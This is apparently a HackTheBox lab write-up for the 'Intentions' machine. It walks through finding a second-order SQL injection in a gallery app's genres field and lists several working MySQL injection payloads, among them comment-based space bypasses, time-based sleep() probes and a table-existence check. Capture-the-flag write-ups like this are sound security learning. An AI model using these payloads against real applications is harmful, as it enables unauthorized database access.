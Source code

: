 ```yaml
---
layout: post
title:  "Writeup of Intentions (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox intentions SQLI REST
---
```


# Discovery

10.129.19.92

There a register/login page on port 80.

There is `/.git/` and `/storage/.git/`, but it gives Forbidden on every file.

The server appears to be using the genre list in generating our feed. When we put this as the list:

`food,travel,nature,test'";asda$#()`

And then access `GET /api/v1/gallery/user/feed`:

```
HTTP/1.1 500 Internal Server Error

{
    "message": "Server Error"
}
```

Maybe it's some delayed SQL injection?

Let's try `food,travel,nature,test' and 1=0 and 1='`.

It didn't work - but when the page got refreshed all the spaces vanished, so that's probably why.

`food,travel,nature,test'/**/or/**/1=0/**/or/**/1='` seems to work!

`food,travel,nature'/**/+/**/sleep(2)/**/or/**/1='` sleeps for quite a lot so **it is MySQL**, and is probably ran multiple times.

`sleep(1)` comes back after about **19 s**.

# SQL injection

`food,travel,nature'/**/or/**/(select/**/sleep(1)/**/from/**/users/**/where/**/version()=0)/**/or/**/1='` doesn't error out, so we know that table `users` exists.

If we give it some true statement after `where`, like `1=1`, it does error out but sleeps. 

This is the user info from `/api/v1/auth/user`:

```json
{
  "status": "success",
  "data": {
    "id": 28,
    "name": "test",
    "email": "test@test.com",
    "created_at": "2023-07-01T19:01:43.000000Z",
    "updated_at": "2023-07-01T19:29:52.000000Z",
    "admin": 0,
    "genres": "food,travel,nature'/**/+/**/sleep(2)/**/or/**/1='"
  }
}
```
